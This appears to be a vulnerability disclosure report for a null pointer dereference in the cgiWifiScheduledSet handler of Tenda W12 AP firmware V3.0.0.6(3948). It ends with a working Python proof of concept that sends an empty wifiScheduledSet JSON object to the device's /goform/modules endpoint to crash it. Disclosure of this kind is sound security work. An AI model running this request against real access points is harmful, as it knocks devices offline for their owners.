

# Bug Report: NPD in Tenda W12 AP
A null pointer dereference vulnerability exists in Tenda W12 firmware V3.0.0.6(3948) within the cgiWifiScheduledSet function. Remote attackers can exploit this flaw by sending malformed HTTP requests to cause a denial of service condition.

## Vulnerability Details

### Product Information
- **Product**: Tenda W12 AP
- **Affected Version**: V3.0.0.6(3948)
- **Download Source**: https://www.tenda.com.cn/material/show/673226879721541
- **Vulnerability Type**: Null pointer dereference

## Description
A null pointer dereference vulnerability exists in the HTTP request handler for `wifiScheduledSet` operations. The handler attempts to extract a `scheduledList` object from user-controlled JSON input without proper validation. When the JSON payload does not contain the expected `scheduledList` field, the resulting null pointer is dereferenced at line 45.


## PoC


## Reproduce
```python
#!/usr/bin/env python3

from pwn import *
import requests

def send_payload(url, payload, headers):
    print("sending...")
    response = requests.post(
        url,
        json=payload,
        headers=headers,
    )
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = {
    "wifiScheduledSet": {
    }
}

headers = {
    "Host": "10.10.10.1",
    "Content-Type": "application/json",
}

send_payload("http://10.10.10.1/goform/modules", payload, headers)
```

